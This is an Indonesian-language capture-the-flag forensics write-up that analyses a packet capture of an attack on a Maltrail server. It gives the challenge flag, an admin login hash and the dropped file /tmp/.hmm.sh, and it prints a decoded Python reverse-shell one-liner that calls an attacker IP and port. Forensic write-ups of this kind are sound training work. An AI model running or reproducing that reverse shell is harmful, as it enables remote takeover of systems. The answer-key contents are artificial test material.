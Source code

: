 # Analyze the Bad Hacker!

Author: daffainfo

Category: Forensic

Flag: `HCS{f0R3n51k_1tu_m3n4rik}`

## Description
Let's ping the website!!

## Difficulty
Easy

## Solution

Jawaban:
Pertama konek dulu dengan server untuk menjawab beberapa pertanyaan yang diajukan
```
nc 34.101.202.34 30001
```

![Alt text](image.png)

Diawali dengan soal pertama yang diharuskan mencari nama dan versi server yang digunakan oleh perusahaan

![Alt text](image-1.png)

Jika dengan menggunakan filter `http` pada wireshark. Maka akan muncul HTTP request beserta responsenya. Kemudian pilih salah satu HTTP response dan muncul header bernama `Server` yang mengandung nama server beserta versinya

```
Maltrail/0.53
```

![Alt text](image-2.png)

Kemudian, soal kedua diminta untuk memasukkan username beserta hash dimana penyerang login kedalam website kedua kalinya. Hal tersebut bisa dicek dengan filter `http.request.method == POST` untuk memperlihatkan packet mana saja yang mengandung HTTP request dan response pada saat login

![Alt text](image-3.png)

Untuk mengecek isi dari packet yang ada, bisa menekan tombol klik kanan kemudian follow -> HTTP Stream

![Alt text](image-4.png)

Pada packet ke 2063 adalah dimana penyerang login kedalam website kedua kalinya dan jawabannya adalah

```
admin:56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73
```

![Alt text](image-5.png)

Untuk pertanyaan ketiga, ini bisa didapat jika melihat beberapa packet yang ada

![Alt text](image-6.png)

Ada HTTP request yang cukup mencurigakan seperti gambar diatas karena terdapat fungsi `base64` dan `sh`. Jika dilihat kembali, terdapat fungsi seperti melakukan decode base64.

![Alt text](image-7.png)

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Jika didecode, ternyata mengandung IP dan juga port penyerang


```
159.223.33.240:9999
```

![Alt text](image-9.png)

Untuk soal terakhir, kita diharuskan untuk mencari file yang dimasukkan oleh penyerang didalam server

![Alt text](image-8.png)

Hal itu bisa didapatkan di beberapa packet setelah HTTP request yang mencurigakan sebelumnya, terlihat penyerang membuat file baru bernama `/tmp/.hmm.sh` yang berisikan command untuk melakukan reverse shell

```
/tmp/.hmm.sh
```

![Alt text](image-10.png)